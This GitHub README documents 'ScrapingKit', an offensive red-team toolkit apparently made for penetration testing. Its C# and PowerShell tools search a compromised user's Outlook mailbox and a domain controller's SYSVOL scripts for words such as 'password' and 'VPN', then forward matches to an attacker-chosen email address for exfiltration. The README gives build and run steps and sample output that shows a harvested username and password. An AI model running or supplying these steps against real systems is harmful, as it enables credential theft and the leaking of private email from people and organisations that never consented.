 # ScrapingKit

Scraping Kit is made up of several tools for scraping services for keywords, useful for initial enumeration of Domain Controllers or if you have popped a user's desktop, their outlook client. Each component has a function currently supports scraping and emailing the contents to a designated email address for easy exfiltration.

The kit contains two tools currently with more to come in the coming months and more customisation options.

- SharpScrapeKit
- PSScrapeKit

## SharpScrapeKit

### What it is

It helps identify files that contain specific keywords in both emails via the Outlook desk app, and the local domain controller via the Policies and Scripts directories within the SYSVOL folder of an Active Directory domain. It then provides information about the matches and can be used to hunt for potential words such as username and password present in those files.

### How to setup/use

Read this blog post for more detailed information labs.

https://lares.com/introducing-the-scraping-kit/

#### Required NuGet Pakages

1. Right-click on project 'ScrapeKit' under Solution Explorer and select Manage NuGet Packages.
2. Click on Browse search for the below pakages and install.

```
Microsoft.Office.Interop.Outlook" Version="15.0.4797.1004"
MicrosoftOfficeCore" Version="15.0.0"
System.DirectoryServices" Version="7.0.1"
System.DirectoryServices.AccountManagement" Version="7.0.0"
```

`TargetFramework > net6.0`

Compile then execute with either PowerShell, CMD or if you have physical access simply double click it.
The following menu screen will load.

```
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
```

The Sharp implementation of the tool will pull the domain from environmental variables or if you want to specify it manually it will prompt you to do so.

### Example Option 1 using the default keywords

After selecting option 1 you will be requested to add a destination email address, all matches will be forwarded to the added address.
 
```Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
Y
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```


### Example Option 1 using user defined keywords

You can select the default keywords or add your own keywords by selecting N at the prompt.

```Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
n
Enter additional keywords (comma-separated):
happy1
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```

### Example Option 2 DC scrape with user defined keyword

```
C:\Users\user2>C:\Users\user2\Desktop\ScrapeKit.exe
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
2
Please provide at least one keyword as a command-line argument.
happy
Match found in file \\WIN-4Q0A4190APL.hacklab.local\SYSVOL\HACKLAB.LOCAL\Scripts\Test1\Herllo.txt!
Additional keywords found in the context:
user
username
name
username:
username:
Context:
sfsfisfjhsf sfjbsfj sf sf


username: happy1
password: test1
```

## PSScrapeKit

### What it is

PSScrapeKit is an outlook scraper written in powershell, it will connect to the user's outlook client, search for keywords then queue up any interesting emails and send to an email of your choosing.

### How to Use

Simply import the module then execute it:

```
ipmo .\OutlookScrape.ps1
Invoke-OutlookScrape
```

It will give you two options:
```
Select keyword option:
1. User-defined keywords
2. Default keywords (password, security, confidential, VPN, WIFI)
Enter the keyword option: 
```

Simply select an option then specify an email and the rest will queue up and do its thing.

